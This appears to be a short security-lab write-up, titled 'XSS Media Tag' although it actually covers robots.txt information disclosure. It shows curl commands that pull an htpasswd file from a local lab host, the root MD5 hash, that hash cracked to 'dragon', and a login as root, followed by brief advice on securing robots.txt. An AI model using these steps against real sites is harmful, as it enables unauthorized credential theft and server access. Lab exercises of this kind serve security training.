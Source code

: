 # XSS Media Tag

A robots.txt file specifies which parts of a website are accessible to a web crawler. They are not a security mechanism but a way for search engines to index your website.

## Steps
* Open your terminal and run
```bash
	curl http://192.168.0.108/robots.txt
        
	curl http://192.168.0.108/whatever/htpasswd #Displays "root:8621ffdbc5698829397d97767ac13db3"
```
* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt</a> the value we found
	* 8621ffdbc5698829397d97767ac13db3 -> dragon

* Sign in admin using the credentials
	* root      [username]
	* dragon    [password]

## Vulnerabilities
* An attacker can use a robot.txt file to navigate your website and see sections of your server.

## Ways to secure
* It's best not to declare private directories in robots.txt file since most crawlers will ignore the file and scan the entire directory.
